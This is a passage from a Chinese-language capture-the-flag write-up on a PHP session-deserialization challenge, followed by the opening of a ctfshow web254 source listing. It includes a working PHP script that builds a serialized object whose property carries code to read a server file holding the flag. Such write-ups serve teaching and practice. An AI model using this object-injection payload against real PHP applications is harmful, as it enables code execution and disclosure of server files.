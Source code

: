 <img src="图片\20210203105041160.png" alt="20210203105041160" style="zoom:80%;" />

可以看到`Here_1s_7he_fl4g_buT_You_Cannot_see.php`这个文件，flag肯定在里面，但还有一个问题就是不知道这个路径，路径的问题就需要回到phpinfo页面去查看

<img src="图片\20210203105048835.png" alt="20210203105048835" style="zoom:80%;" />

因此我们只需要把payload，当中改为`print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));`即可获取flag

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class OowoO
{
    public $mdzz='print_r(file_get_contents("/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"));';
}
$obj = new OowoO();
echo serialize($obj);
?>
```

# ctfshow

## web254

```php
 <?php

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
```